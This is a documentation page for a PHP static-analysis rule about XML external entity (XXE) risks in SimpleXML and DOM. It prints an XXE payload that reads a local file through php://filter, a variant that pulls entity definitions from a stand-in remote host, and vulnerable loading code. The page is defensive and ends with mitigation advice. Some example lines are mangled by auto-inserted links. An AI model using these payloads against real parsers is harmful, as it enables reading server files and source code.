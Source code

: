 .. _security-nonetforxmlload:


.. _no-net-for-xml-load:

No Net For Xml Load
+++++++++++++++++++

.. meta::
	:description:
		No Net For Xml Load: Simplexml and ext/DOM load all external entities from the web, by default.
	:twitter:card: summary_large_image
	:twitter:site: @exakat
	:twitter:title: No Net For Xml Load
	:twitter:description: No Net For Xml Load: Simplexml and ext/DOM load all external entities from the web, by default
	:twitter:creator: @exakat
	:twitter:image:src: https://www.exakat.io/wp-content/uploads/2020/06/logo-exakat.png
	:og:image: https://www.exakat.io/wp-content/uploads/2020/06/logo-exakat.png
	:og:title: No Net For Xml Load
	:og:type: article
	:og:description: Simplexml and ext/DOM load all external entities from the web, by default
	:og:url: https://exakat.readthedocs.io/en/latest/Reference/Rules/No Net For Xml Load.html
	:og:locale: en

.. raw:: html


	<script type="application/ld+json">{"@context":"https:\/\/schema.org","@graph":[{"@type":"WebPage","@id":"https:\/\/php-tips.readthedocs.io\/en\/latest\/Reference\/Rules\/Security\/NoNetForXmlLoad.html","url":"https:\/\/php-tips.readthedocs.io\/en\/latest\/Reference\/Rules\/Security\/NoNetForXmlLoad.html","name":"No Net For Xml Load","isPartOf":{"@id":"https:\/\/www.exakat.io\/"},"datePublished":"Fri, 10 Jan 2025 09:46:18 +0000","dateModified":"Fri, 10 Jan 2025 09:46:18 +0000","description":"Simplexml and ext\/DOM load all external entities from the web, by default","inLanguage":"en-US","potentialAction":[{"@type":"ReadAction","target":["https:\/\/exakat.readthedocs.io\/en\/latest\/No Net For Xml Load.html"]}]},{"@type":"WebSite","@id":"https:\/\/www.exakat.io\/","url":"https:\/\/www.exakat.io\/","name":"Exakat","description":"Smart PHP static analysis","inLanguage":"en-US"}]}</script>

Simplexml and ext/DOM load all external entities from the web, by default. This is dangerous, in particular when loading unknown XML code.

Look at this XML code below : it is valid. It defines an entity ``xxe``, that is filled with a file, read on the system and base64 encoded.::

   
   
   &lt;!DOCTYPE replace [&lt;!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"&gt; ]&gt;
   <replace>&xxe;</replace>
   
   


This file could be processed with the following code : note, you can replace 'index.php' in the above entity by any valid filepath. 

 

Here, PHP tries to load the XML file, finds the entity, then solves the entity by encoding a file called ``index.php``. The source code of the file is not used as data in the XML file. 

At that point, the example illustrates how a XXE works : by using the XML `engine <https://www.php.net/engine>`_ to load external resources, and preprocessing the XML code. in fact, there is only one change to make this XML code arbitrarily injected :::

   
   
   &lt;!DOCTYPE replace [&lt;!ENTITY writer SYSTEM "https://www.example.`com <https://www.php.net/com>`_/entities.dtd"&gt; ]&gt;
   <replace>&xxe;</replace>
   
   


With the above example, the XML code is `static <https://www.php.net/manual/en/language.oop5.static.php>`_ (as, it never changes), but the 'xxe' definitions are loaded from a remove website, and are completely under the attacker control.

.. code-block:: php
   
   <?php 
       $dom = new DOMDocument();
       $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
       $info = simplexml_import_dom($dom);
       
       print base64_decode($info[0]);
   ?>

See also `XML External Entity <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection>`_,, `XML External Entity (XXE) Processing <https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing>`_ and `Detecting and exploiting XXE in SAML Interfaces <https://web-in-security.blogspot.nl/2014/11/detecting-and-exploiting-xxe-in-saml.html>`_.

Connex PHP features
-------------------

  + `Extensible Markup Language (XML) <https://php-dictionary.readthedocs.io/en/latest/dictionary/xml.ini.html>`_


Suggestions
___________

* Strip out any entity when using external XML
* Forbid any network to the XML engine, by configuring the XML engine without network access




Specs
_____

+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Short name   | Security/NoNetForXmlLoad                                                                                                |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Rulesets     | :ref:`All <ruleset-All>`, :ref:`Changed Behavior <ruleset-Changed-Behavior>`, :ref:`Security <ruleset-Security>`        |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Exakat since | 1.0.11                                                                                                                  |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| PHP Version  | All                                                                                                                     |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Severity     | Major                                                                                                                   |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Time To Fix  | Slow (1 hour)                                                                                                           |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Precision    | High                                                                                                                    |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Available in | `Entreprise Edition <https://www.exakat.io/entreprise-edition>`_, `Exakat Cloud <https://www.exakat.io/exakat-cloud/>`_ |
+--------------+-------------------------------------------------------------------------------------------------------------------------+


